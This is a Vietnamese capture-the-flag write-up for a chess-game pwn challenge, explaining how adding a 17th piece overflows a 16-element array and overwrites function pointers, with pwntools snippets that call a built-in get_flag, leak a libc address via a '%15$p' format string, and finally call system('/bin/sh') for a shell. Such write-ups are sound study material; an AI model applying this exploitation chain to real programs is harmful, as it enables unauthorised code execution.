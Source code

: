 Bài này mình được cung cấp cả source và hint nên việc tìm ra bug cũng không quá khó.

Hint: **Một người chơi có bao nhiêu quân cờ.**

# **BUG**

Xem qua file source, ta thấy struct player được định nghĩa như sau:
```
typedef struct player {
    int nuoc;
    int quan_luc;
    quan_co c[16];
    void (*di)(struct player *);
    void (*trash_talk)(struct player *);
    void (*them_quan)(struct player *, loai_quan_co, char *, mau_quan_co);
} player;
```
Như vậy, mỗi người chơi sẽ có tối đa 16 quân cờ. Tuy nhiên, đoạn code thêm quân phía bên dưới không kiểm tra số lượng quân cờ của người chơi:
```
switch (read_num()) {
            case 1:
                quan = read_quan();
                dan_do = read_dan_do();
                human->them_quan(human, quan, dan_do, ddo);
                printf("- Đã điều động thêm %s.\n", human->c[human->quan_luc-1].string);
                break;
```
```
void them_quan(player* p, loai_quan_co l, char *dan_do, mau_quan_co mau) {
    init_quan_co(&(p->c[p->quan_luc]), l, dan_do, mau);
    p->quan_luc += 1;
}
```
Điều này dẫn đến người chơi có thể nhập nhiều hơn 16 quân cờ và ghi đè được các hàm *di*, *trash_talk* và *them_quan*

# **Exploit**
## Sử dụng hàm get_flag có sẵn:

Do giới hạn của ctf 3 tiếng nên anh ra đề đã cung cấp sẵn 1 hàm *get_flag* để đọc flag.

Để tận dụng hàm này, ta chỉ cần thêm quân 16 lần, sau đó ở lần thứ 17 sẽ thêm 1 quân có giá trị *dan_do* là địa chỉ của hàm *get_flag*.
Khi đó, hàm *di* sẽ bị ghi đè bởi hàm *get_flag*. Sau đó, gọi hàm *di* để lấy flag:
```
        for i in range(16):
                them_quan("xe", "ahuhi")

# use get_flag
        them_quan("noob", p32(get_flag))

        r.sendline("2")
        r.interactive()
```

## Get shell:

Sau khi mình khai thác sử dụng lại hàm get_flag thành công, mình được khuyến khích là thử tìm cách để lấy được shell xem có được không.

Với zer0 kiến thức về khai thác trên heap, mình khá là betak khúc này. Sau đó, mình được anh @Bảo nói là trong trường hợp này, mình chỉ có thể control được con trỏ lệnh chứ không thể kiểm soát được đối số truyển vào. Do đó, mình phải tìm cách tận dụng lại các đối số này.

Sau một khoảng thời gian bế tắc again, mình có hỏi và nhận được một super hint siêu to khổng lồ từ "ĐẤNG" @HoàngThắng là có thể sử dụng *printf* để leak địa chỉ hàm *__libc_start_main* ở trong stack.

OK, có hint super value rồi, triển khai thôi:

### Leak address:

Sau một thời gian tìm trong source code của bài, mình thấy hàm *read_str* có nhiệm vụ đọc chuỗi vào một địa chỉ truyển vào:
```
void read_str(char *buf, unsigned int size) {
    int ret;
    ret = read(0, buf, size);

    if (ret <= 0) {
        puts("read error");
        exit(1);
    }

    buf[ret-1] = '\x00';
}
```
Vì vậy mình có thể tận dụng lại hàm này để lưu formatstring mình cần vào tại địa chỉ của *human*. Sau đó, ghi đè hàm *di* thành hàm *printf* và gọi nó để leak giá trị bên trong stack:

Ở đây, vị trí mình cần leak ra nằm ở vị trí từ 16 trong stack, vậy formatstring cần sử dụng là __%15$p__:

![show_stack](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/stack.PNG)

Và giá trị mình leak ra được là **__libc_start_main + 247** => **Libc base = leak - 247 - __libc_start_main offset**

![leak address](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/leak.PNG)

Sau khi leak và tính toán được các địa chỉ cần thiết, mình sử dụng lại hàm *them_quan* để ghi đè hàm system vào địa chỉ hàm bất kì, ở đây mình chọn hàm *khich_tuong*.

Tuy nhiên, vị trí của các giá trị mình ghi vào có phụ thuộc vào giá trị của biến *quan_luc* trong struct player. Do đó, trước khi thêm quân, mình cần phải sửa lại giá trị này thành 0x10(16):
```
        r.recvuntil("> ")
        r.sendline("2")
        r.sendline("\x00"*4 + "\x10\x00\x00\x00")
```

Sau khi sửa lại giá trị *quan_luc*, thêm 1 quân để ghi đè 2 hàm *di* và hàm *khich_tuong* bằng 2 hàm *read_str* và hàm *system*.

Cuối cùng, để lấy shell, gọi hàm *di* (đã bị ghi đè thành *read_str*) để truyển vào chuỗi "/bin/sh" và gọi *khich_tuong* để thực hiện *system("/bin/sh")*:
```
        r.recvuntil("> ")
        them_quan("noob", p32(read_str)+p32(system))

        r.sendline("2")
        r.sendline("/bin/sh")

        r.recvuntil("> ")
        r.sendline("3")

```
![get_shell](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/final.PNG)

Cảm ơn mọi người đã đọc hết write-up của mình :smile:
